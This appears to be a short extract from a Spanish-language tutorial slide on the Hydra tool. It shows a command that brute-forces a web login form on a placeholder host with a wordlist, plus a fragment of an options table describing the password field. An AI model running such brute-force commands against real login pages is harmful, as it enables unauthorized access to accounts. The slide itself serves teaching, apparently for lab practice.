

# hydra -l <username> -P <wordlist> MACHINE_IP http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V

Opción

password
Descripción
Nombre del campo donde la password es introducida